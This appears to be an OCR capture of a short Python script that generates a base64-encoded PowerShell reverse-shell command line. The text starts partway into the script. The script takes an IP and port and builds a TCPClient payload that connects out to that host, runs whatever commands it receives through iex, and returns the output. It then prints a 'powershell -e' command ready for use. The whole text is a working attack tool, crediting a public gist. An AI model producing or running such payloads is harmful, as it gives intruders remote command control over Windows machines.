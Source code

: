 ```powershell 
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```
